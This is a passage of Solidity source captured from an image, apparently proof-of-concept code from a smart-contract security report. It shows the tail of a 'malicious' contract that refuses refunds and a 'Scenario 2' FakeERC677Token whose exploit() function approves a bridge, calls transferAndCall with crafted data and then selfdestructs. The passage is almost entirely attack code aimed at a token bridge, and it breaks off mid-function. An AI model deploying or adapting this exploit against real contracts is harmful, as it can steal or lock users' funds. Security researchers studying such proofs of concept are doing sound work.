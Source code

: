```solidity
        _transfer(msg.sender, to, value);

        // Call onTokenTransfer on the recipient (bridge)
        (bool success, ) = to.call(
            abi.encodeWithSignature("onTokenTransfer(address,uint256,bytes)", msg.sender, value, data)
        );
        require(success, "ERC677: transferAndCall failed");

        return true;
    }

    fallback() external payable {
        revert("Malicious contract refuses token refund");
    }

    receive() external payable {
        revert("Malicious contract refuses ETH");
    }
}








✅Scenario 2



// SPDX-License-Identifier: MIT
pragma solidity ^0.7.5;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// Fake ERC677 Token (Malicious Version)
contract FakeERC677Token is ERC20 {
    uint256 private initialSupply = 1000000 * 10**18;

    constructor() ERC20("FakeERC677Token", "FET677") {
        _mint(msg.sender, initialSupply);
    }

    // Exploit trigger function
    function exploit(address bridge, uint256 value) external {
        require(balanceOf(msg.sender) >= value, "Not enough tokens");

        _transfer(msg.sender, address(this), value);

        _approve(address(this), bridge, value);

        bytes memory maliciousData = abi.encodePacked(address(0));
        //bytes memory maliciousData = abi.encodePacked(0x0000000000000000000000000000000000000000);

        transferAndCall(bridge, value, maliciousData);

        selfdestruct(payable(address(0))); 
    }

    function transferAndCall(address to, uint256 value, bytes memory data) public returns (bool) {
```